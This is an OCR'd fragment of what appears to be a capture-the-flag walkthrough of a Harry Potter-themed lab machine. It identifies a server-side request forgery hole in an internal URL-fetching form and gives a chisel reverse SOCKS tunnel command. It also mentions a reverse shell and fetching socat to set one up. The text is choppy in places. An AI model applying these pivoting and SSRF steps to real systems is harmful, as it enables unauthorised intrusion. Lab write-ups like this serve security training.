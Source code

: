 ```bash
		site_admin
	</body>
</html>
```
seems that we found a route for the machine 10.10.0.137
```bash
let's find possible CVE's or pluglins for that route
```
usage 
remember to turn on the foxyproxy in order to dig that page

```php
<html>
<head>
	<title>Resource Fetching Page</title>
	<meta charset="utf-8">
</head>
<body>
	<center><h1>Welcome to Internal Network Resource Fetching Page</h1></center>
	<br><br>

	<form action="/internalResourceFeTcher.php" method="GET">
	<center><input type="text" name="url" value="" id='url'>
	<input type="submit" value="Fetch"></center>
	</form>
</body>

<html>
<body>
<img src="harry_potter_2.jpg" style='height: 100%; width: 100%; '>
</body>
</html>

```

that page is using the parameter ```GET``` so it has a vulnerability of Server side request forgery 
using the search bar let's try it 

first of all we need to use 2 connections the ssh port that we made using the key gen and the reverse shell that we made for hagri98 

on our tunneling made with sshpor22 we have to stay using this command 

```bash
root@Aragog:/dev/shm# ./chisel.sh client 192.168.100.53:1324 R:socks
```
and for the reverse shell we will use socat in order to download we just have to get them from github, example 

```bash
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat
```

then just click in download tab

and share it with python3 
